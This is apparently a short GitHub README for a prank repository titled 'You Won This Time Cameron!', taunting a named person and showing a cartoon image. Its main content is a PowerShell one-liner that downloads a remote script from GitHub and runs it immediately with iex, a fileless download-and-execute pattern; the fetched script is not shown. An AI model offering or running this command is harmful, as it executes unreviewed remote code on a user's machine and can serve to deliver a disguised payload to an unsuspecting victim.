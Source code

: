 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!

'''iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))'''

Also, you're fired!\
![alt text](https://banner2.cleanpng.com/20180525/lwh/kisspng-dexter-s-laboratory-mandark-s-lab-cartoon-networ-5b087754a2c022.5414427515272814926666.jpg)
